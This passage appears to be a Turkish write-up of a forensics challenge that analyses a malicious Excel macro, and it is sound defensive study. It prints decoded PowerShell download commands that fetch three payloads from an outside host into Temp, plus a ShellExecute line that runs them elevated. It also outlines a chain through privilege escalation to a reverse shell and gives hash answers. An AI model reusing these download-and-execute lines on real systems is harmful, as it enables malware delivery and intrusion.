 ```

Hemen Decode edelim. Base64den çeviriyoruz ve Null Byte'ları temizliyoruz. 

```Invoke-WebRequest -Uri http://ofbahar.com/notamalware.vbs -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\notamalware.vbs```
```Invoke-WebRequest -Uri http://ofbahar.com/accesstoken.exe -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\AccessToken.exe```
```Invoke-WebRequest -Uri http://ofbahar.com/BodyMassIndex.exe -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\BodyMassIndex.exe```

Dosyalar indiriliyor, sonrasında aşağıdaki satırda "notamalware.vbs" dosyası çalıştırılıyor. 
```
    shellapp.ShellExecute "wscript.exe", "C:\Users\RickMartinGrimes\AppData\Local\Temp\notamalware.vbs", Null, "runas", 1
```
Çalışma Sırası:

1- İlk önce Macro içeren Excel Dosyası Rick Martin tarafından çalıştırılıyor.<br>
2- Daha sonrasında Macro tarafından 3 adet Malware indiriliyor.<br>
3- Macro ile "notamalware.vbs" dosyası çalıştırılıyor.<br>
4- "notamalware.vbs" dosyası, ```"C:\Users\RickMartinGrimes\AppData\Local\Temp\"``` konumunda, ```notabadpowershell.ps1``` adında bir dosya oluşturuyor.<br>
5- "notabadpowershell.ps1" dosyası ile, "AccessToken.exe" dosyası çalıştırılıyor.<br>
6- "AccessToken.exe" dosyası privilege değerini yükseltiyor.<br>
7- "AccessToken.exe" dosyası artık daha yüksek bir yetki değerine sahip. Sahip olduğu yetki değeri ile Reverse Shell içeren "BodyMassIndex.exe" dosyasını çalıştırıyor.<br>

Cevap:
```
"notamalware.vbs"
"BodyMassIndex.exe"
"accesstoken.exe"
"BodyMassIndex.xlsm"
```
# 7. Soru

## Description
> What is the hash value of the infected malware?

## Solution

```
┌──(root㉿kali)-[/home/kali/Desktop/malwares]
└─# md5sum *                   
49c11ece1cd9412fa61b9b30302b7c51  accesstoken.exe
556df0cc1d9ece696533a2009b5b24c9  BodyMassIndex.exe
ac44b26b53fdf6eb20ab44b4b6e04792  Body Mass Index.xlsm
d7ebc2ba7b2e2edfbc0ef020bf57303a  notamalware.vbs
                                                                                                                                                                         
┌──(root㉿kali)-[/home/kali/Desktop/malwares]
└─# sha256sum *             
a6926daf37d96d2e22a0421b926e1e84bcc94afbeccdafecd5efa3ab7ec1ccf8  accesstoken.exe
5cdf3c561ac1f1ccd792056ea109d0a6dd378bb74598d18a452401ece64dc254  BodyMassIndex.exe
8a3b884dc48b7002d28ba92b361172eef4e96463e682fd8bfd41bf4d399562fd  Body Mass Index.xlsm
7ea23cc76cf864bb297f4b3a36498ed7dd4061e06f00ea2b206fc350e385a83d  notamalware.vbs
```
                                                                                           
Cevap:
```
accesstoken.exe:
MD5: 49c11ece1cd9412fa61b9b30302b7c51
SHA256: a6926daf37d96d2e22a0421b926e1e84bcc94afbeccdafecd5efa3ab7ec1ccf8
